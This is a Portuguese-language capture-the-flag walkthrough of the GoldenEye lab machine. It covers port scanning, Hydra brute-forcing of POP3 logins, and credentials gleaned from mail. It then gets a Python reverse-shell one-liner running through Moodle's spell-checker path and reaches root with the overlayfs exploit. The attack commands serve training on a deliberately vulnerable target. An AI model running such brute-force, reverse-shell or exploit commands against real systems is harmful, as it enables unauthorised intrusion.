# _**GoldenEye CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap [ip_address]
> nmap -p [ports_discovered] -A -T4 [ip_address]
> ```


Parece que temos um serviço, **SMTP** e um website na porta 80  
Vamos começar pelo website  
Ao acessar, ele nos diz para ir até _/sev_home_ para realizar login  
No mesmo tempo em que acessamos o diretório dado, vamos utilizar <mark>Gobuster</mark> para tentar descobrir novos diretórios  
> ```
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt --status-codes "200,201,300,301,302" --status-codes-blacklist "" --follow-redirect
> ```


Já havia passado de 50% e nenhum retorno foi encontrado  
Seguimos  
Vamos partir para o código do site para encontrar por pistas  
Parece que encontramos uma senha  
E também um usuário
* **boris**
* **&#73;&#110;&#118;&#105;&#110;&#99;&#105;&#98;&#108;&#101;&#72;&#97;&#99;&#107;&#51;&#114;**

Temos um segundo nome também: **Natalya**



Utilizando [CyberChef](https://toolbox.itsec.tamu.edu/), foi possível decodificar a senha  
Tentativa de login como **boris**  
Sucesso!  



Pela informação, parece que existe mais uma porta aberta além das que descobrimos  
Vamos realizar novamente um scan com <mark>Nmap</mark>
> ```bash
> nmap -p- -Pn [ip_address]
> ```


Parece que encontramos algo na porta 55007, um serviço **pop3**  
O servidor específico rodando o serviço é o **Dovecot**  
O POP3 é usado por clientes de e-mail para baixar mensagens do servidor para a máquina local  
Ao tentar realizar login como **boris**, temos acesso negado  



Podemos tentar encontrar a senha em algum outro lugar ou realizar um ataque de força bruta no serviço com <mark>Hydra</mark>  
Vamos utilizar 2 _wordlists_ diferentes para aumentar as chances de obtermos a senha correta
> ```bash
> hydra -l boris -P ../wordlists/rockyou.txt -t 64 -s 55007 [ip_address] pop3
> hydra -l boris -P ../wordlists/fasttrack.txt -t 64 -s 55007 [ip_address] pop3
> ```


Conseguimos encontrar a senha de **boris** para **pop3**  
Realizamos login  



Lemos suas 3 mensagems  
Parece que temos dois novos usuários
* **Xenia**
* **Alec**
* **Janus**
* **root**
* **Natalya**

Vamos tentar descobrir a senha destes usuários através do <mark>Hydra</mark>  
Como tivemos sucesso com **fasttrack.txt**, vamos utilizar novamente, recorrendo a **rockyou** em último caso
> ```bash
> hydra -l [username] -P ../wordlists/fasttrack.txt -t 64 -s 55007 [ip_address] pop3
> ```


Temos para o usuário **Natalya**  
Realizando login  
Lendo suas mensagens, conseguimos obter as credenciais para **Xenia**  
E também um domínio relacionado ao endereço IP do servidor: <mark>severnaya-station.com/gnocertdir</mark>  

Primeiro, vamos tentar realizar login com as credenciais da **Xenia** em **POP3**  
Sem sucesso  
Então, vamos alterar nosso arquivo _/etc/hosts_ adicionando esse novo domínio  
Navegamos para _http://severnaya-station.com/gnocertdir_ e encontramos um novo website  



Vasculhando um pouco o site, descobrimos um formuláro de login  
Vamos tentar com as credenciais de **Xenia**  
Login com sucesso!  


Investigando o website, encontramos uma mensagem de um usuário de nome **doak**  
Será que ele também está registrado no **pop3?**  
Vamos realizar um ataque de força bruta com <mark>Hydra</mark>
> ```bash
> hydra -l doak -P ../wordlists/fasttrack.txt -t 64 -s 55007 [ip_address] pop3
> ```


Temos sua senha descoberta!  
Vamos realizar login no serviço com as credenciais e encontrar mais mensagens  
A mensagem pede para nós retornarmos para o website, inserir as credenciais dadas e exfiltrar novas informações  
Seguindo direto paras as mensagens, não encontramos nada  
Porém, em arquivos secretos, encontramos um _.txt_  
Baixamos e investigamos  



Temos um novo diretório: **/dir007key/for-007.jpg**  
Acessando, uma imagem, vamos realizar download via ```wget```  
Investigando com ```strings```, temos um retorno  



Algo codificado em ```base64```, que podemos facilmente traduzir  
E um nome de usuário: **James**  
Vamos tentar realizar login tanto no website, quanto no **pop3**  
Nenhum sucesso em ambos  
Voltando a mensagem, tentamos **admin** e sucesso!  



Investigando o website, encontramos um local para possível alteração de ```system path``` do ```aspell```  
Vamos tentar obter um _reverse shell_ com **python**
> ```bash
> python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[ip_address]",[port]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
> ```
Vamos alterar _/admin/settings.php?section=editorsettingstinymce_ para ```PSpellShell```  
E por fim, vamos realizar o _trigger_ do nosso código para _reverse shell_ adicionando um novo blog em _/blog/edit.php?action=add_ e clicando em **SpellCheck**  



Procurando por vulnerabilidades no ```moodle 2.2.3```, podemos encontrar algumas referências através de **searchsploit**  
Pesquisando mais, existe um módulo no <mark>Metasploit</mark> que pode executar essa vulnerabilidade  

## _**Escalando privilégios**_
Para isso, vamos utilizar <mark>LinPeas</mark> transferindo de nossa máquina para a máquina-alvo através de um servidor http com python  
Executando  
Temos resultados  



A vulnerabilidade **overlayfs** tem código disponível em **[exploit.db](https://www.exploit-db.com/exploits/37292)**  
Vamos realizar o _download_, transferir e executar na máquina-alvo  
Verificamos o código para ver se está nos conformes  
É preciso alterar a linha ```gcc -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w``` para ```clang -fPIC -shared -o /tmp/ofs-lib.so /tmp/ofs-lib.c -ldl -w```, pois o compilador é **Clang**  

Compilamos com ```clang 37292.c -o exploit```  
Executamos com ```./exploit```  
Temos acesso **root**  
Basta ir atrás da flag!  




